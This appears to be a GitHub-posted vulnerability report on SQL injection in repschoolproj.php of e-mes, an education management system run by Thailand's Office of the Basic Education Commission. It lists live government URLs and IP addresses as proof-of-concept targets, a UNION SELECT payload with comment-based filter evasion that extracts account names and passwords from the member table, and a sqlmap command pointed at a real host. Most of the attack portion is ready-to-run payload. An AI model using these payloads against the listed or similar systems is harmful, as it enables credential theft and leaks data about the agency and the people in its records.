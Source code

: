 Describe：
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being

> [Attack Vectors]
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.
> POC: 
> 1.http://eme1.obec.go.th/~eme62/repschoolproj.php?claster=school&idarea=648
> 2.http://203.159.250.192/~eme52/repschoolproj.php?claster=school&idarea=648
> 3.http://203.159.250.194/~eme53/repschoolproj.php?claster=school&idarea=648
> 4.http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648
> 5.http://203.159.250.193/~eme63/repschoolproj.php?claster=school&idarea=648
> 6.more.....
> Exploit:
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648 /**/uNiOn /**/select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#
> This exp can get the login account and password of the e-mes system
> photo proof:
![图片](https://user-images.githubusercontent.com/110643835/188271608-f84fa56c-e571-4bad-977d-1f3758c20f6f.png)
![图片](https://user-images.githubusercontent.com/110643835/188271644-c6d1d05c-09ec-4785-9507-0809d0c48e22.png)

Or use sqlmap for injection
> POC: sqlmap.py -u "http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648*"

